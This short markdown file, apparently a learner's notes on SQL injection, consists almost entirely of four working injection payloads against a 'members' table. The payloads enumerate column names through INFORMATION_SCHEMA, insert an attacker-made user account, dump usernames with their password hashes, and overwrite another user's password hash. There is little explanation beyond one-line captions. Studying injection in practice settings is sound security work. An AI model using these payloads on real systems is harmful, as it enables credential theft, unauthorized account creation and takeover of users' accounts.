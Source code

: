 # This is a file with explanation of SQL injections and some examples





### Some SQL Injection attacks that could work when the table displayed on the webpage is 4 columns wide:

view all column names of table members
```
' AND 1=2 UNION SELECT COLUMN_NAME,NULL,NULL,NULL FROM INFORMATION_SCHEMA.columns WHERE TABLE_NAME = "members";
```

insert your own user
```
%'; INSERT INTO members (Username, Name, email, Password) VALUES ("flying_buffallo", "Mr. Buffallo", "buffallo@flying.de", "crackme" );
```

view all users and their password hashes
```
' AND 1=2 UNION SELECT Username, Password, NULL, NULL FROM members;
```

Update the password of the user sam
```
'; UPDATE members SET Password = "4b6ad7d194518aac02b072e6179dbf1e69ffa7ba" WHERE Username = "sam";
```
